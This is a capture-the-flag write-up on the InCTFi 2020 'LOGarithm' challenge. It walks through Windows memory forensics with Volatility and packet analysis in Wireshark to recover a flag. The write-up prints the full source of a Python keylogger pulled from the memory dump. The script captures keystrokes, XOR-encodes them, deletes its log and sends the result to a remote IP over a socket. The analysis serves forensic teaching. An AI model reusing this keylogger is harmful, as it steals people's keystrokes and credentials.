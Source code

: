 ```yaml
---
title: LOGarithm - InCTF Internationals/bi0s CTF 2020
categories: 
    - CTF-Writeups
tags: 
    - Windows Memory Analysis
    - bi0sCTF
author: Abhiram Kumar
date: 2020-08-05
draft: false
slug: inctfi-2020-logarithm
toc: true
---
```


Full solution to <b>LOGarithm</b> challenge from InCTFi 2020.

<!--more-->

**tl;dr**

+ Extract keylogger script from the memory dump.
+ Extract the master key from the packet capture.
+ Reverse the script to get the flag.

**Challenge points**: 100

**No. of solves**: 49

**Challenge Author**: [stuxn3t](https://twitter.com/_abhiramkumar)

## Challenge description

![description](/images/CTF/InCTFi/logarithm/description.png)

The challenge file can be downloaded from [Google drive](https://drive.google.com/file/d/13jqNNjlYjrcAaIdmq77sd2HkE6athVJg/view).

## Initial analysis

We are provided with 2 files. A memory dump and packet capture.

In this post, I will be first going through the memory dump in order to relate better with the traffic present in the packet capture.

### Finding the profile

```bash
$ volatility -f Evidence.vmem imageinfo
```

![imageinfo](/images/CTF/InCTFi/logarithm/imageinfo.png)

I'll be using **Win7SP1x64** as the profile for this challenge.

## Scanning active processes

Since we believe that some data was stolen sent to the adversary, it is good to assume that we might have a malicious process running. Let us check the active processes 
in the system to better understand the scenario.

```bash
$ volatility -f Evidence.vmem --profile=Win7SP1x64 pslist
```

![pslist](/images/CTF/InCTFi/logarithm/pslist.png)

We observer 2 very interesting processes **cmd.exe** & **python**.

## Listing the cmd history

Let us use the `cmdscan` plugin to check if any suspicious commands were executed.

```bash
$ volatility -f Evidence.vmem --profile=Win7SP1x64 cmdscan
```

![cmdscan](/images/CTF/InCTFi/logarithm/cmdscan.png)

Well, there is nothing much in it which can be of any use.

## Finding the keylogger

Now, we have to check what "file" was executed in python. Let us use the **cmdline** plugin to see what script was run.

```bash
$ volatility -f Evidence.vmem --profile=Win7SP1x64 cmdline -p 2216
```

![cmdline](/images/CTF/InCTFi/logarithm/cmdline.png)

So this was the file **C:\Users\Mike\Downloads\keylogger.py** that was executed.

### Extracting keylogger.py

We will use the **filescan** plugin to locate the offset of the file.

```bash
$ volatility -f Evidence.vmem --profile=Win7SP1x64 filescan | grep "keylogger.py"
```

![filescan](/images/CTF/InCTFi/logarithm/filescan.png)

So the offset is **0x000000003ee119b0**

Using the **dumpfiles** plugin, we dump the file.

## Reversing keylogger

This is the **keylogger.py** script that we extracted from memory.

```python
import socket, os
from pynput.keyboard import Key, Listener
import socket

import logging
list1 = []

def keylog():
    dir = r"C:\Users\Mike\Desktop\key.log"
    logging.basicConfig(filename=dir, level=logging.DEBUG,format='%(message)s')

    def on_press(key):
        a = str(key).replace("u'","").replace("'","")
        list1.append(a)

    def on_release(key):
        if str(key) == 'Key.esc':
            print "Data collection complete. Sending data to master"
            logging.info(' '.join(list1))
            logging.shutdown()
            master_encrypt()
        

    with Listener(
        on_press = on_press,
        on_release = on_release) as listener:
        listener.join()

def send_to_master(data):
    s = socket.socket()
    host = '18.140.60.203'
    port = 1337
    
    s.connect((host, port))
    key_log = data
    s.send(key_log)
    s.close()
    exit(1)

def master_encrypt():
    mkey = os.getenv('t3mp')
    f = open("C:/Users/Mike/Desktop/key.log","r")
    modified = ''.join(f.readlines()).replace("\n","")
    f.close()
    data = master_xor(mkey, modified).encode("base64")
    os.unlink("C:/Users/Mike/Desktop/key.log")
    send_to_master(data)

def master_xor(msg,mkey):
    l = len(mkey)
    xor_complete = ""

    for i in range(0, len(msg)):
        xor_complete += chr(ord(msg[i]) ^ ord(mkey[i % l]))
    
    return xor_complete

if __name__ == "__main__":
    keylog()
```

So from the script above we can see that, the script is **logging keystrokes** and **xor-ing** it with a malicious environmental variable **t3mp**. The **IP** of the attacker is also visible which in this case is **18.140.60.203** and the **port** is **1337**.

So we have to extract the encrypted text from the packet capture and also retrieve the value of the env **t3mp**.

## Extracting encrypted text & env

We use **Wireshark** to inspect the pcap file. Since we already know the IP and port, we can apply appropriate filters and extract the text.

![wireshark](/images/CTF/InCTFi/logarithm/wireshark.png)

The data is some base64 encoded text.

To extract malicious env, we use the **envars** plugin to get the variable's value.

![env](/images/CTF/InCTFi/logarithm/envars.png)

Now that we have everything we need, all we need to do is to xor them.

## Decryption

![solution](/images/CTF/InCTFi/logarithm/solution.png)

So in this way, we extract the flag.

## Flag

**FLAG**: inctf{n3v3r\_TrUs7\_Sp4m\_e\_m41Ls}
{:.success}

For further queries, please DM me on Twitter: <https://twitter.com/_abhiramkumar>.